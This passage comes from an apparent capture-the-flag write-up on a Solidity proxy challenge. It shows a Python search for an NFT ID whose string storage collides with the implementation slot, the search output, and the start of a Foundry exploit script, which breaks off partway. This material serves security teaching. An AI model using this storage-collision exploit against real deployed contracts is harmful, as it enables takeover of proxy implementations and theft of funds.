 ```python
def main():
    print("Starting analysis...")
    owner_result, impl_result = find_closest_slots()
    
    print("\nResults:")
    print(f"\nClosest to OWNER_STORAGE:")
    print(f"Difference: {owner_result[0]}")
    print(f"ID: {owner_result[1]}")
    print(f"String type: {owner_result[2]}")
    
    print(f"\nClosest to IMPLEMENTATION_STORAGE:")
    print(f"Difference: {impl_result[0]}")
    print(f"ID: {impl_result[1]}")
    print(f"String type: {impl_result[2]}")

if __name__ == "__main__":
    main()
```

The script found that NFT `ID 56488061` with a long string would give us a collision at `offset 141` from the implementation storage slot:

```bash
Results:

Closest to OWNER_STORAGE:
Difference: 602641329853891472628429529548778136057339432943191408590826256368928
ID: 16665064
String type: short

Closest to IMPLEMENTATION_STORAGE:
Difference: 141
ID: 56488061
String type: long
```

### Foundry script
Here's the exploit contract that leverages this finding:

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script, console} from "forge-std/Script.sol";
import {Setup} from "../src/Setup.sol";
import {CryptoFlags} from "../src/CryptoFlags.sol";

contract SolveScript is Script {
    Setup setup;
    CryptoFlags cryptoFlags;
    Soluce soluce;
    function setUp() public {}

    function run() public virtual {
        uint256 id = 56488061;
        vm.startBroadcast();
        setup = Setup(0x98f075BB612c9A5F92d253C798B6345A9ecebF29);
        soluce = new Soluce();

        cryptoFlags = setup.cryptoFlags();
        cryptoFlags.claimFlag(id);


        /* Closest to IMPLEMENTATION_STORAGE:
        Difference: 141
```